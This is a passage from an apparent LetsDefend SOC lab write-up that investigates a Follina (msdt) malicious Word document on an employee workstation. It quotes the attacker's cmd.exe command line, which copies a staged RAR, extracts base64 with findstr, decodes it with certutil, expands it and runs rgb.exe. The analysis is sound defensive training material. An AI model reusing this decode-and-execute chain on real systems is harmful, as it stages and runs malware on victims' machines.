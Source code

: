 💡To show more Hybrid Analysis result [Click Here](https://medium.com/@rrio/letsdefend-follina-0-day-detected-by-sagi-dimarzio-871dc1c684c1)

---

### Now the doc file confirmed as malicious☠️

we can proceed to investigate further for other anomalies on `Jonas’s workstation` or in the `log management` tab.

| ![Screenshot For The Alert](/assets/images/LetsDefend/SOC173/8.png) | 
|:--:| 
| *Terminal History* |



```python
C:/windows/system32/cmd.exe /c cd C:/users/public/&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe
```

```python
C:/windows/system32/cmd.exe /c 
cd C:/users/public/&&
for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&
findstr TVNDRgAAAA 1.rar>1.t&&
certutil -decode 1.t 1.c &&
expand 1.c -F:* .&&
rgb.exe
```
<details><summary>
  Explain this command that the attacker run in Powershell
  </summary></details>

---

>If the attacker exploit the `msdt.exe` successfully, it means the malicious `05-2022-0438.doc` had successfully establish homing connection to malicious domain and processed the malicious HTML which contains `msdt command line` embedded with `PowerShell` syntax. 

---

### Now Let's looking for the Log Management.
